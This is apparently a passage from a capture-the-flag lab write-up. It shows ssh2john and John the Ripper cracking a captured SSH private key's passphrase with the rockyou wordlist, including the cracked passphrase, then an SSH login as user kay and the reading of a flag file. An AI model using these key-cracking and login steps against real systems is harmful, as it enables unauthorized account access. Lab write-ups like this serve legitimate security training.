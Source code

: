 1. Use `ssh2john` to change the contents of the file into something that JohnTheRipper can read. `/usr/share/john/ssh2john.py id_rsa > hash`
1. Use JohnTheRipper to crack the password. `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash`
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
1g 0:00:00:00 DONE (2021-01-11 15:40) 1.075g/s 2694Kp/s 2694Kc/s 2694KC/s  abrxbt.a6_123
Session completed
```

And we got a hit! We can now login to kay's account.

### ssh (kay)

First, change the file permissions of the key so ssh doesn't yell at us. `chmod 600 id_rsa`

`ssh kay@10.10.x.x -i id_rsa`

Passphrase: `beeswax`

### Finding the flag

Once you're in, run `ls` to find your flag file. `cat pass.bak`